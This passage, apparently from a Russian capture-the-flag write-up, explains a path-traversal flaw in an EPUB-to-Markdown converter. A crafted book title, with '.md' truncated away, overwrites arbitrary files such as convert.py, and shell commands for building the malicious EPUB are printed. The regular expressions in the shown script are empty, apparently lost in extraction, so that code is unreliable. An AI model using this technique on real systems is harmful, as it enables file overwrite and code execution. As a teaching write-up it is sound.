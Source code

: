 ```python
    opf
    .find("{http://www.idpf.org/2007/opf}manifest")
    .findall("{http://www.idpf.org/2007/opf}item")
)
items_by_id = {}
for item in items:
    items_by_id[item.get("id")] = item

itemrefs = (
    opf
    .find("{http://www.idpf.org/2007/opf}spine")
    .findall("{http://www.idpf.org/2007/opf}itemref")
)
for itemref in itemrefs:
    idref = itemref.get("idref")
    item = items_by_id[idref]
    if item.get("media-type") == "application/xhtml+xml":
        with open(os.path.join(os.path.dirname(rootfile), item.get("href"))) as f:
            chapter = f.read()
        chapter = re.sub(r"", "", chapter)
        for n in range(1, 7):
            chapter = re.sub(f"", "#" * n + " ", chapter)
        chapter = re.sub(r"", "**", chapter)
        chapter = re.sub(r"", "_", chapter)
        chapter = re.sub(r"", "", chapter)
        chapter = re.sub(r"\n{3,}", "\n\n", chapter).strip()
        f_out.write(f"{chapter}\n\n---\n\n")

print("Output:", out_path)
with open("out-path.txt", "w") as f:
    f.write(out_path)

---
```

Следующую зацепку дает строчка:

```python
out_path = f"/tmp/converted/{title}.md"[:100]
```

Меняя название книги, мы можем допиться перезаписи любого файла на машине, даже не заканчивающегося на `.md`. Например, чтобы переписать `/etc/passwd`, можно подставить название `../../////.../////etc/passwd`, где количество слешей подобрано так, чтобы суффикс `.md` был обрезан.

Перезапись `/etc/passwd` вряд ли что-то даст, а вот с `convert.py` можно поиграться. Попробуем что-нибудь простое:

```shell
$ sed -i 's!/home/bookkeeper/books/convert.py!source.xhtml!' OEBPS/content.opf
$ sed -i 's!When Sysadmins Ruled the Earth!../..////////////////////////////////////////////////home/bookkeeper/books/convert.py!' OEBPS/content.opf
$ echo 'print("Hello, world!")' >OEBPS/source.xhtml
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 27%)
updating: OEBPS/ (stored 0%)
updating: OEBPS/content.opf (deflated 48%)
  adding: OEBPS/source.xhtml (stored 0%)
```
